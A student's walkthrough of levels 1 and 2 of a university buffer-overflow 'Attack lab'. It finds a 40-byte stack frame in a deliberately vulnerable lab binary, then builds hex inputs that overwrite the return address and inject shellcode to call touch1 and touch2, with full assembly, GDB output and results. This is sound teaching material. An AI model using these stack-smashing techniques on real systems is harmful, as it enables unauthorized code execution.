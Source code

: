 # Attack lab

By Adrian Borup (adbo@itu.dk).

## Part I: Code Injection Attacks

### Level 1

We start by inspecting the assembly to find the address of the `touch1` function:

```asm
$ objdump -D ctarget | grep -A 14 "<touch1>"
0000000000402698 <touch1>:
  402698:       f3 0f 1e fa             endbr64
  40269c:       50                      push   %rax
  40269d:       58                      pop    %rax
  40269e:       48 83 ec 08             sub    $0x8,%rsp
  4026a2:       c7 05 50 82 0f 00 01    movl   $0x1,0xf8250(%rip)        # 4fa8fc <vlevel>
  4026a9:       00 00 00
  4026ac:       48 8d 3d 58 5c 0c 00    lea    0xc5c58(%rip),%rdi        # 4c830b <_IO_stdin_used+0x30b>
  4026b3:       e8 a8 a2 01 00          callq  41c960 <_IO_puts>
  4026b8:       bf 01 00 00 00          mov    $0x1,%edi
  4026bd:       e8 f4 04 00 00          callq  402bb6 <validate>
  4026c2:       bf 00 00 00 00          mov    $0x0,%edi
  4026c7:       e8 64 fb 00 00          callq  412230 <exit>

00000000004026cc <touch2>:
```

Our goal is now to overwrite the return address after `getbuf` so it points to `0x402698`. We want to know the size of the stack frame so we can overwrite the return address. Let's check out `getbuf`'s assembly code:

```asm
$ objdump -D ctarget | grep -A 9 -m 1 "<getbuf>"
000000000040267e <getbuf>:
  40267e:       f3 0f 1e fa             endbr64
  402682:       48 83 ec 28             sub    $0x28,%rsp
  402686:       48 89 e7                mov    %rsp,%rdi
  402689:       e8 b5 02 00 00          callq  402943 <Gets>
  40268e:       b8 01 00 00 00          mov    $0x1,%eax
  402693:       48 83 c4 28             add    $0x28,%rsp
  402697:       c3                      retq

0000000000402698 <touch1>:
```

At instruction `0x40267e`, we can see an integer constant `$0x28`, which is 40 in base 10. The return address, `%rsp`, is decremented with these 40 bytes - therefore our stack frame must be 40 bytes in size. We can confirm this by seeing if the program starts to misbehave between 39 and 40 bytes of input:

```sh
# File contains 39 bytes:
$ cat inp.txt
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00

# Pipe 39 bytes into the program:
$ cat inp.txt | ./hex2raw | ./ctarget
Cookie: 0x5d21660e
Type string:No exploit.  Getbuf returned 0x1
Normal return

# Pipe one more byte into the program:
$ (cat inp.txt; echo " 00") | ./hex2raw | ./ctarget
Cookie: 0x5d21660e
Type string:Ouch!: You caused a segmentation fault!
Better luck next time
FAILED
```

Yup! Boom. The segfault happens when we feed 40 bytes. Therefore, let's try to add another word (8 bytes) to the input so those bytes will overwrite the return address:

```diff
  00 00 00 00 00 00 00 00
  00 00 00 00 00 00 00 00
  00 00 00 00 00 00 00 00
  00 00 00 00 00 00 00 00
  00 00 00 00 00 00 00 00
+ 98 26 40 00 00 00 00 00
```

Here we've inserted the address of `touch1` (with the bytes reversed to obtain little-endian order). By feeding this to the vulnerable program, we see that the return address is indeed overwritten, and the instructions from `touch1` are executed:

```sh
$ ./hex2raw < inp.txt | ./ctarget
Cookie: 0x5d21660e
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```

### Level 2

First, let's locate `touch2`, and let's see what our unique cookie looks like:

```asm
$ objdump -D ctarget | grep -A 5 "<touch2>"
00000000004026cc <touch2>:
  4026cc:       f3 0f 1e fa             endbr64
  4026d0:       50                      push   %rax
  4026d1:       58                      pop    %rax
  4026d2:       48 83 ec 08             sub    $0x8,%rsp
  4026d6:       89 fa                   mov    %edi,%edx

$ cat cookie.txt
0x5d21660e 
```

Excellent - we can now write our exploit code. We'll do it in raw assembly:

```asm
# The %rdi register holds the first function argument. We write our cookie value
# into that register, so touch2 will receive it as the val argument.
mov $0x5d21660e,%rdi

# We push a return address onto the stack - in this case the address of touch2
push $0x4026cc

# Return, which will pop the stack and go to that address
ret
```

To obtain the byte representation of our exploit code, we save the above code in `exploit.s` and compile it:

```asm
$ gcc -c exploit.s && objdump -D exploit.o

exploit.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 c7 c7 0e 66 21 5d    mov    $0x5d21660e,%rdi
   7:   68 cc 26 40 00          pushq  $0x4026cc
   c:   c3                      retq
```

One last thing before we write our buffer overflow input: we need the address of our exploit code. First, let's overwrite the stack frame with these 39 bytes of input:

```sh
$ cat test.txt
12 34 56 78 90 ab cd ef
11 11 11 11 22 22 22 22
33 33 33 33 44 44 44 44
55 55 55 55 66 66 66 66
77 77 77 77 88 88 88

$ cat test.txt | ./hex2raw > test.bin
```

Then we can use GDB to inspect the values of the memory in the stack frame. From earlier, we know that `0x40268e` is the address of the instruction after `Gets` returns in `getbuf` (i.e. when our buffer overflow should have completed).

```sh
$ gdb ./ctarget
GNU gdb (Ubuntu 9.2-0ubuntu1~20.04.1) 9.2
...
Reading symbols from ./ctarget...

# Set breakpoint in getbuf right after Gets returns
(gdb) b *0x40268e
Breakpoint 1 at 0x40268e: file buf.c, line 15.

# Run the program with the above input
(gdb) r < test.bin
Starting program: /home/stud/adbo/exercises/22-Lab2-attacklab/target22/ctarget < test.bin
Cookie: 0x5d21660e

Breakpoint 1, getbuf () at buf.c:15
15      buf.c: No such file or directory.

# Starting from the stack pointer (register %rsp - the top of the stack), show
# the address and value of the next 48 bytes. That is, the stack frame and the
# following return address.
(gdb) x/48bx $rsp
0x55609288:     0x12    0x34    0x56    0x78    0x90    0xab    0xcd    0xef
0x55609290:     0x11    0x11    0x11    0x11    0x22    0x22    0x22    0x22
0x55609298:     0x33    0x33    0x33    0x33    0x44    0x44    0x44    0x44
0x556092a0:     0x55    0x55    0x55    0x55    0x66    0x66    0x66    0x66
0x556092a8:     0x77    0x77    0x77    0x77    0x88    0x88    0x88    0x00
0x556092b0:     0x79    0x28    0x40    0x00    0x00    0x00    0x00    0x00
```

We can see that our input bytes start at address `0x55609288`. The last line shows the address (`0x402879`) of the original instruction that we would normally return to - but we will overwrite this address with the address to our exploit code instead. It should be noted at we do not need to put our exploit code precisely at `$rsp` - we could put it anywhere inside the shown memory as long as we "return" to that place in the memory.

We can now create our final buffer overflow input:

```hex
$ cat inp.txt
/* Exploit code */
48 c7 c7 0e 66 21 5d    /* mov    $0x5d21660e,%rdi */
68 cc 26 40 00          /* pushq  $0x4026cc */
c3                      /* retq */

/* Padding */
00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00

/* Address of our exploit code */
88 92 60 55 00 00 00 00
```

And feed it to the vulnerable program:

```sh
$ ./hex2raw < inp.txt | ./ctarget
Cookie: 0x5d21660e
Type string:Touch2!: You called touch2(0x5d21660e)
Valid solution for level 2 with target ctarget
PASS: Sent exploit string to server to be validated.
NICE JOB!
```

